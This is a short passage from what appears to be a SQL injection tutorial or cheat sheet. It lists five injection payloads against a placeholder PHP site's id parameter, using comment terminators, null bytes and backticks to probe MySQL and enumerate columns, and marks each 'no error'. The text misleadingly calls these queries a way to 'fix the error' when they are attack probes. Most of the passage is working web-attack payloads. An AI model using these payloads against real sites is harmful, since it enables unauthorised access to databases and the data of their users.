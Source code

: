 ## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error.  

```http://domain.com/index.php?id=1' order by 1;%00-- -```   no error  
```http://domain.com/index.php?id=1' order by 1;%60-- - ```  no error  
```http://domain.com/index.php?id=1' order by 1%60-- - ```  no error  
```http://domain.com/index.php?id=1'%23/* order by 1-- - ```  no error  
```http://domain.com/index.php?id=1') order by 1-- - ```  no error  
